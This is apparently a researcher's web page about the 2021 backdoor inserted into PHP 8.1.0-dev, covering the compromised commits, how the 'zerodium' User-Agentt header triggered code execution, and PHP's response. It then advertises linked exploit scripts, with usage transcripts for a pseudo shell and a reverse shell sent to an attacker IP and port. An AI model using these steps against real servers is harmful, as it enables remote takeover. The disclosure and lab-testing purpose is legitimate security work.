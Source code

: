 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![logo_php8.png](logo_php81.png "logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

* * *

## Summary

1- The Story   
2- POC Script    
3- Reverse Shell
  

* * * 
## 1- The Story

### 1.1- PHP source code targeted in backdoor attack ?

Two malicious commits were pushed to the PHP Git code repo on Sunday, March 28, and signed off under the names of PHP creator, Rasmus Lerdorf, and maintainer Nikita Popov. 

In the malicious commits, the attackers published a mysterious change upstream, "fix typo" under the pretense this was a minor typographical correction. 

![php-repo.png](php-repo.png "php-repo.png")

However, taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with 'zerodium'.  
Zerodium is a a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself.

According to PHP maintainers, this malicious activity stemmed from the compromised git.php.net server, rather than compromise of an individual's Git account. Official announcement states the incident points towards a server compromise.
 
![php-git.png](php-git.png "php-git.png")


### 1.2- PHP Site's User Database Was Hacked

Further investigation into the incident has revealed that the commits were a result of pushing them using HTTPS and password-based authentication, leading them to suspect a possible leak of the master.php.net user database.

![php-logs.jpg](php-logs.jpg "php-logs.jpg")

Additionally, the master.php.net authentication system is said to be on a very old operating system and a version of PHP, raising the possibility that the attackers may have also exploited a vulnerability in the software to stage the attack.

As a consequence, the maintainers have migrated master.php.net to a new main.php.net system with support for TLS 1.2, in addition to resetting all existing passwords and storing passwords using bcrypt instead of a plain MD5 hash.

## 2- POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.

It has the number [49933](https://www.exploit-db.com/exploits/49933) on [Exploit DB](https://www.exploit-db.com/exploits/49933).   

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- **Vulnerability references**:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the host url:
http://a.b.c.d

Interactive shell is opened on http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

* * * 

## 3- Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```

![revshell-script.png](revshell-script.png "revshell-script.png")





Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

